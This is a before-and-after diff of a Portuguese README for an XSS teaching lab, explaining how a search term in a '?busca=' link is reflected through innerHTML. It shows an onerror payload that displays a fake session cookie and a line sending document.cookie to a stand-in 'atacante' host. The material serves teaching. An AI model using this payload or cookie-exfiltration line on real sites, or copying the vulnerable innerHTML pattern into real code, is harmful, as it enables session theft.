

Before and after one commit to eduHanjos0411/os-xss-lab, a Markdown page: README.md, 2 parts joined by grey strips. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
docs: update README to explain reflected XSS via URL link
Clarifies that the reflected XSS attack surface is a shareable link
(?busca=<payload>) rather than just the search form submission, and
describes how the session cookie demo ties into the cookie-theft
scenario.

Co-Authored-By: Claude Sonnet 4.6 <noreply@anthropic.com>

````diff
--- a/README.md
+++ b/README.md
@@ -76,16 +76,18 @@ de link nenhum.
 
 ### Ponto 2 — Reflected XSS (busca)
 
-No *submit* da busca:
+A busca escreve o termo na query string (`?busca=...`) e, ao carregar a
+página, o termo da URL é refletido de volta via `innerHTML`:
 
 ```js
+const termoURL = new URLSearchParams(location.search).get('busca');
 document.getElementById('resultado-busca').innerHTML =
-  'Exibindo resultados para: <strong>' + termo + '</strong>';
+  'Exibindo resultados para: <strong>' + termoURL + '</strong>';
 ```
 
-O termo digitado é **refletido** de volta na hora, também via `innerHTML`. O
-payload não é salvo; ele "vive" só naquela pesquisa (ou num link
-`?busca=...` que a vítima abrisse, numa versão com query string).
+O payload não é salvo; ele "vive" no link. Isso é o que caracteriza o
+**reflected**: a vítima que apenas **abre um link** `?busca=<payload>`
+já executa o script, sem nada ficar persistido no servidor.
 
 ---
 
@@ -115,7 +117,12 @@ página (F5) que o `alert` volta — provando a persistência.
 <img src=x onerror="alert(document.cookie)">
 ```
 
-O `alert` aparece na hora. Trocar `alert` por envio a um servidor
+Ao pesquisar, a página recarrega com `?busca=<payload>` na URL e o `alert`
+dispara exibindo o cookie **de sessão** (`sessao=abc123-token-fake`), criado
+pela própria app para a demonstração. Como o payload fica **no link**, basta
+copiar a URL da barra de endereços e abri-la em outra aba para o ataque
+disparar de novo — é assim que uma vítima seria atingida ao clicar num link
+malicioso. Trocar `alert` por envio a um servidor
 (`new Image().src='http://atacante/c?'+document.cookie`) é o que, num cenário
 real, caracterizaria **roubo de sessão**.
 
````
